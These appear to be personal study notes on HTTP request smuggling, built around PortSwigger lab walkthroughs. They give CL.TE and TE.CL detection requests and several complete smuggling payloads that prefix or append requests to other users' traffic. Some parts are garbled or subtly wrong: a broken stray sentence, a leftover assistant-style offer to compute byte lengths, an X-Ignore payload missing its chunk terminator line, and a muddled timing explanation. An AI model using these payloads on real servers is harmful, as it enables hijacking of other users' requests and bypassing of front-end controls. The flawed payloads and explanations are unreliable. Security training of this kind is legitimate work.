



## CL.TE detection

Send the following request which includes both a `Content-Length` header and `Transfer-Encoding: chunked`:

```http
POST / HTTP/1.1\r\n
Host: HOST\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
Content-Type: application/x-www-form-urlencoded\r\n
\r\n
3\r\n
abc\r\n
X\r\n
```

### Explanation

When a front-end/proxy and a back-end server disagree about which framing method to use, request smuggling can occur. If the front-end honors `Content-Length` and the back-end expects chunked framing, the back-end may receive an incomplete chunked stream.

Example: the front-end reads exactly the number of bytes from `Content-Length` and forwards them. The back-end, parsing chunked data, may read a valid chunk (`3\r\nabc\r\n`) and then interpret the remaining bytes (e.g. `X\r\n`) as the next chunk-size line. Because `X` is not a valid chunk-size, the back-end waits for more data and may hang or time out.

### Example: how the attack can arise

Another payload variant demonstrates how leftover bytes become the start of the next request:

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
G
```

If the front-end uses `Content-Length` it will forward the declared number of bytes and include the `G`. The back-end, interpreting the body as chunked, reads the `0\r\n\r\n` sequence (end of chunked body) and then sees `G` as the start of the next request (for example the first byte of the next request line). In other words, `G` becomes the first byte of the next request the back-end processes, which allows an attacker to smuggle bytes into a subsequent request.




## TE.CL detection

This section covers detecting a TE.CL mismatch (the front-end/proxy uses Transfer-Encoding while the back-end uses Content-Length).

1) Confirm the front-end parses chunked encoding

Send a request that is invalid as chunked data and observe whether the front-end rejects it:

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
3\r\n
abc\r\n
X\r\n
```

Expected result: if the front-end is parsing Transfer-Encoding (chunked), it will detect the invalid chunk framing (the `X` is not a valid chunk-size) and return a protocol/parsing error (often a 400). An immediate error here indicates the front-end is handling the request as chunked.

2) Confirm the back-end uses Content-Length (timing-based)



Next, use a request that ends the chunked stream and leaves an extra byte that can be interpreted differently by the back-end:

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
X
```

Behavior to look for: if the front-end parses Transfer-Encoding, it will forward the chunked stream and any leftover bytes to the back-end. If the back-end instead uses `Content-Length`, it will be expecting the number of bytes declared in `Content-Length` and may wait for more data. This mismatch often causes the back-end to hang or time out while the front-end has already finished — the timing difference is the signal that the back-end is using Content-Length framing.


after we have t end the chunked with 
To solve the lab https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

Goal: craft a chunked request that smuggles a new request starting with "GPOST" so the back-end interprets the next request method as "GPOST" (allowing the smuggle to succeed).

Original request
```http
POST / HTTP/1.1\r\n
Host: 0a730065032a122885236dcb007800cb.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 0\r\n
\r\n
```

Smuggled request (call this SMUGGLED)
```http
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: XX\r\n
\r\n
```

Notes on lengths
- Because the front-end uses Transfer-Encoding (chunked), we must send the smuggled bytes as chunked data. In the example below the smuggled request body length is 58 bytes (the exact value depends on the bytes you include).
- After the smuggled bytes we terminate the chunked stream with:

```http
0\r\n
\r\n
```

- The `XX` Content-Length value inside the smuggled request should be set so the back-end will parse the following request correctly. In the example below `XX` is set to the length of the next (normal) request plus one.

Example normal request (the request following the smuggled one)
```http
POST / HTTP/1.1\r\n
Host: 0a730065032a122885236dcb007800cb.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 8\r\n
\r\n
foo=badr
```

Combined (final) payload example
```http
POST / HTTP/1.1\r\n
Host: 0a730065032a122885236dcb007800cb.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Transfer-Encoding: chunked\r\n
Content-Length: 4\r\n
\r\n
58\r\n
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 159\r\n
\r\n
0\r\n
\r\n
```

Explanation (brief)
- The `Content-Length: 4` in the outer request tells a back-end that honors Content-Length to stop after reading 4 bytes of the body (in this payload those 4 bytes are the ASCII digits `58\r\n`). The chunked framing then delivers the smuggled request bytes (`GPOST ...`) followed by a `0\r\n\r\n` terminator.
- The `Content-Length: 159` inside the smuggled request is chosen so the back-end will treat the following bytes as the body of that smuggled request (the exact value depends on your smuggled and following request lengths).

Verify carefully: byte counts and CRLFs must be exact — off-by-one errors will make the smuggle fail. If you want, I can compute exact byte lengths for the specific smuggled content you plan to use and update the payload accordingly.

## CL.TE X-ignore

To smuggle a request on a CL.TE-vulnerable target, first confirm the vulnerability (see the detection section). Then send a request like this:

```http
POST / HTTP/1.1\r\n
Host: 0a5700c50463d097824ad9a200e800ae.web-security-academy.net\r\n
Content-Length: 36\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
GET /404 HTTP/1.1\r\n
X-Ignore: xx\r\n
```

Follow it immediately with a second request:

```http
GET / HTTP/1.1\r\n
Host: 0a5700c50463d097824ad9a200e800ae.web-security-academy.net\r\n
\r\n
```

What happens

- The front-end (which honors the outer `Content-Length`) forwards the entire outer request to the back-end.
- The back-end (which parses chunked encoding) stops processing the chunked body after `0\r\n\r\n` and begins parsing the following bytes as a new request.
- Because the forwarded bytes include `GET /404 ...` plus the start of the following request, the two requests are concatenated. The back-end therefore sees the smuggled request line combined with the following request header, for example:

```http
GET /404 HTTP/1.1\r\n
X-Ignore: xxGET / HTTP/1.1\r\n
Host: 0a5700c50463d097824ad9a200e800ae.web-security-academy.net\r\n
```

Notes

- Preserve exact CRLF sequences and byte counts when testing; framing issues depend on precise bytes.
- This technique relies on how the front-end and back-end disagree about framing; behavior may vary between servers.



## TE.CL append data using POST

First, detect the vulnerable website using the TE.CL detection technique above. Once confirmed, craft a chunked request that appends data (a POST) to the back-end by taking advantage of the framing mismatch.

Example payload to send first:

```http
POST / HTTP/1.1\r\n
Host: 0a6700d104e27314805ea8bc00d000b3.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
9e\r\n
POST /404 HTTP/1.1\r\n
Host: 0a6700d104e27314805ea8bc00d000b3.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 10\r\n
\r\n
x=\r\n
0\r\n
\r\n
```

Then immediately send the normal request (to be appended):

```http
POST / HTTP/1.1\r\n
Host: 0a6700d104e27314805ea8bc00d000b3.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 0\r\n
\r\n
```

Explanation

- The outer `Content-Length: 4` tells a back-end that honors Content-Length to read 4 bytes of the body (those 4 bytes are the ASCII characters `9e\r\n`).
- The chunked data then supplies the smuggled request (`POST /404 ...`) using a chunk-size of `9e` followed by the smuggled bytes.
- The inner `Content-Length: 10` specifies the length of the smuggled request's body (in this example the body is `x=\r\n0\r\n\r\n`, the exact count depends on your payload).
- The trailing `0\r\n\r\n` terminates the chunked stream so the front-end forwards everything to the back-end.

Notes

- Precise byte counts and CRLF placement are critical — off-by-one errors will break the smuggle.
- The example uses `9e` as the chunk size and `10` for the inner content length because those values correspond to the example bytes shown; recompute them if you change the smuggled content.
- Behavior varies by server implementations; always verify on the target.